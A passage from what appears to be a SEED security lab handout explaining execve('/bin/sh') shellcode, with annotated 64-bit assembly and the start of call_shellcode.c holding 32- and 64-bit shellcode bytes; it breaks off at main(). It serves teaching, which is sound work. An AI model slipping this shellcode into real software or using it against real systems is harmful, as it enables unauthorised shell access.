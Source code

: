 The shellcode above basically invokes the execve() system call to execute `/bin/sh`. In a separate SEED lab, the Shellcode lab, we guide students to write shellcode from scratch. Here we only give a very brief explanation. 

- The third instruction pushes "//sh", rather than "/sh" into the stack. This is because we need a 32-bit number here, and "/sh" has only 24 bits. Fortunately, "//" is equivalent to "/", so we can get away with a double slash symbol. 
- We need to pass three arguments to `execve()` via the `ebx, ecx and edx` registers, respectively. The majority of the shellcode basically constructs the content for these three arguments. 
- The system call execve() is called when we set al to 0x0b, and execute "int 0x80". 

### 3.3 64-Bit Shellcode

We provide a sample 64-bit shellcode in the following. It is quite similar to the 32-bit shellcode, except that the names of the registers are different and the registers used by the execve() system call are also different. Some explanation of the code is given in the comment section, and we will not provide detailed explanation on the shellcode 

```bash
xor rdx, rdx ; rdx = 0: execve()’s 3rd argument
push rdx
mov rax, ’/bin//sh’ ; the command we want to run
push rax ;
mov rdi, rsp ; rdi --> "/bin//sh": execve()’s 1st argument
push rdx ; argv[1] = 0
push rdi ; argv[0] --> "/bin//sh"
mov rsi, rsp ; rsi --> argv[]: execve()’s 2nd argument
xor rax, rax
mov al, 0x3b ; execve()’s system call number
syscall
```

### 3.4 Task: Invoking the Shellcode

We have generated the binary code from the assembly code above, and put the code in a C program called call_shellcode.c inside the shellcode folder. If you would like to learn how to generate the binary code yourself, you should work on the Shellcode lab. In this task, we will test the shellcode. 

Redirect to shellcode and open the **call_shellcode.c**

```bash
cd shellcode/
cat call_shellcode.c
```
![image](https://github.com/CloudLabs-MOC/CloudLabs-SEED/assets/33658792/17703a08-8b32-41ba-a704-ed0575b248e4)

Listing 1 : **callshellcode.c**

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char shellcode[] =
#if __x86_64__
"\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
"\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
"\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv)
{
```